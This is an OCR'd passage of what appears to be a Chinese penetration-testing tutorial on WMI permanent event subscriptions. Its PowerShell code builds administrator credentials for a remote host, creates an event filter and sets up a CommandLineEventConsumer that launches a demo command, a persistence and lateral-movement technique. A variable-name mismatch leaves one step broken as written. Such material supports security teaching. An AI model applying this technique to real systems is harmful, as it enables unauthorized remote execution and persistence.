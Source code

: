 所有的事件过滤器都被存储为一个`Root\subscription:__EventFiilter`对象的实例，可以通过创建`__EventFilter`对象实例来部署事件过滤器。事件消费者是基于`ROOT\subscription:__EventConsumer`系统类派生来的类。

如下所示，系统提供了常用的标准事件消费类。

```powershell
LogFileEventConsumer         # 将事件数据写入指定的日志文件
ActiveScriptEventConsumer    # 执行嵌入的VBScript或JavaScript
NTEventLogEventConsumer      # 创建一个包含事件数据的事件日志条目
SMTPEventConsumer            # 发送一封包含事件数据的电子邮件
CommandLineEventConsumer     # 执行指定的系统命令
```

攻击者可以使用`WMI`的功能在远程主机上部署永久事件订阅，并在特定时间发生时执行任意代码或系统命令。使用`WMI`事件消费类的`ActiveScriptEventConsumer`和`CommandLineEventConsumer`，可以在远程主机上执行任何攻击荷载，该技术主要用于在目标系统上进行权限持久化。

### 手动利用

整合`PSCredential`，用于后续过程的认证：

```powershell
$Username = "HACK-MY/Administrator"
$Password = "H3rmesk1t@2023"
$SecurePassword = $Password | ConvertTo-SecureString -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $Username, $SecurePassword
```

设置攻击目标和其他公共参数：

```powershell
$GlobalArgs = @{}
$ComputerName = "10.10.10.137"
$GlobalArgs['Credential'] = $Credential
$GlobalArgs['ComputerName'] = $ComputerName
```

在远程主机上部署`TestFilter`事件过滤器，用于查询`svchost.exe`进程的产生。由于`WMI`所有事件过滤器都被存储为`Root\subscription:__EventFilter`对象的实例，因此通过`Set-WmiInstance Cmdlet`创建一个`__EventFilter`类的实例即可：

```powershell
$EventFilterArgs = @{
    EventNamespace = "root/cimv2"
    Name = "TestFilter"
    Query = "Select * from Win32_ProcessStartTrace where processname = 'svchost.exe'"
    QueryLanguage = "WQL"
}
$EventFilter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments $EventFilterArgs @GlobalArgs
```

在远程主机上部署一个名为`TestConsumer`的事件消费者，创建事件消费类`CommandLineEventConsumer`的实例，在指定事件发生时执行系统命令：

```powershell
$CommandLinEventConsumerArgs = @{
    Name = "TestConsumer"
    CommandLineTemplate = "C:\Windows\System32\cmd.exe /c calc.exe"
}
$EventConsumer = Set-WmiInstance -Namespace root\subscription -Class CommandLineEventConsumer -Arguments $CommandLineEventConsumerArgs @GlobalArgs
```
